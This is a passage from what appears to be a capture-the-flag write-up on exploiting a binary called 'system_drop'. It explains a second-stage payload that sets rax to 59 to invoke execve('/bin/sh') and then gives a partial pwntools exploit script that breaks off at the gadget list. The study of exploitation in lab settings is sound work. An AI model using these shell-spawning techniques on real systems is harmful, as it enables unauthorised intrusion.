 At this point, we could send the payload. This will trigger a `read`, we can pass in our second
stage and populate the arguments we'd need for execution during the second half of the exploit.

The secondary payload contains the 8-byte string for `"/bin/sh\x00"` followed by the syscall
address. We'll tack on a padding of null bytes until we reach a length of 59. This is because we'll
be jumping to `syscall` and we need `rax` to equal 59 when we do. The return value of `read` is the
length of the payload, which we control, and is stored at `rax`

```python
syscall = next(e.search(asm('syscall')))

payload = b"/bin/sh\x00"
payload += p64(syscall)
payload = payload.ljust(c.SYS_execve, b"\x00") # c is pwnlib.constants

io.send(payload)
io.interactive()
```
## Conclusion

Let's put it all together

```python
#!/usr/bin/env python3

from pwn import context, gdb, log, args, remote, process, p64, asm, constants as c
import sys

usage = """
    sploit.py <BIN> [REMOTE=x.x.x.x:yy] [GDB,DEBUG]
    GDB     Enables use of GDB during exploit development. Require tmux
    DEBUG   Enables debug logging in pwntool
    REMOTE= Set the host and port to which the exploit will be sent
            GDB cannot be used with this mode
"""

BIN = "./system_drop"


def init(gdbrc):
    if len(sys.argv) != 2 and BIN == "":
        log.warn(usage)
        sys.exit(1)
    binary = BIN or sys.argv[1]
    context.binary = binary
    if args.REMOTE:
        HOST, PORT = args.REMOTE.split(":", 1)
        return remote(HOST, PORT)
    elif args.GDB:
        # context.terminal = ["tmux", "splitw", "-h", "-p", "75"]
        context.terminal = ["tmux", "neww"]
        return gdb.debug(binary, gdbrc)
    else:
        return process(binary)


def main(io):
    # import ipdb;ipdb.set_trace(context=5)
    limit = 40
    e = context.binary

    """
    0x004005ca      pop rbx
    0x004005cb      pop rbp
    0x004005cc      pop r12
```